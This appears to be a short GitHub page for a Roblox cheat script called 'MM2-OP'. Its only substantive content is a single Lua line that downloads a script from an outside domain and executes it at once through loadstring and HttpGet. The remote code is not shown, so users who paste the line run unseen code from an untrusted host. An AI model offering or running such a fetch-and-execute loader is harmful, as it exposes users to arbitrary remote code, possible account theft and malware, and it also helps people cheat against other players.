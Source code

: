 # MM2-OP



loadstring(game:HttpGet("https://egorikusa.space/d2e344f3442ae7ee78f10dd6.lua", true))()
